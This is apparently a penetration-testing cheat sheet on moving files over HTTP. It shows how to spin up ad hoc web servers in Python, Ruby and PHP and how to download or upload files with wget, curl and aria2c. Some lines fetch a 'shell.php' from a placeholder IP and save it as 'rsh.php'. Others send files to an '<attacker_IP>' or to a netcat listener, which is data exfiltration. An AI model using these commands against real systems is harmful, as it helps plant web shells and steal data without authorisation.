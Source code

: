 # HTTP

## 01 - Server Setup

### 1.1 - Python

Note: by default it runs the service with port 8000 if it is not specified

`$ sudo python2 -m SimpleHTTPServer 80`

`$ sudo python3 -m http.server 80`

### 1.2 - Ruby

- **Host a webserver via Ruby**

Note: you'll need to install webrick for ruby (by default it'll use port 8080 if port is not specified)

- To install the ruby gem:

`$ gem install webrick`

- To install in Debian/Ubuntu

```
$ sudo apt install ruby-webrick

$ sudo ruby -run -ehttpd . -p80
```

### 1.3 - PHP

- **Host a webserver via PHP**

`$ sudo php -S 0.0.0.0:80`

## 02 - Usage

### 2.1 - Download

#### 2.1.1 - Wget

```
$ wget -O rsh.php http://<IP>:<PORT>/shell.php

$ wget --no-check-certificate https://<IP>/file.tar.gz
```

- **Resume partially downloaded file**

`$ wget -c http://<IP>/file.tar.gz`

- **Download multiple files with different URLs from a text file list**

`$ wget -i download-files-urls.txt`

#### 2.1.2 - cURL

```
$ curl -O -C - http://<IP>:<PORT>/shell.php

$ curl -o rsh.php http://<IP>:<PORT>/shell.php

$ curl -o downloaded.tar.gz http[s]://<IP>/file.tar.gz
```

- Interact with http proxy server tunnel

`$ curl -p -x http://<proxy_IP> http://website.com`

#### 2.1.3 - aria2c

`$ aria2c http://<IP>/file.tar.gz`

### 2.2 - Upload

#### 2.2.1 - Wget

```
$ wget --post-file=file.txt <attacker_IP>

$ sudo nc -lnvp 80
```

#### 2.2.2 - cURL

`$ curl -T /path/to/file.txt http://<IP>`

- Upload file via post request form

`$ curl -F file=@/path/to/file.txt http://<IP>/post`

- Upload file via post HTTP request

```
$ curl -X POST -d @/path/to/file.txt <IP>

$ sudo nc -lnvp 80 > file.txt
```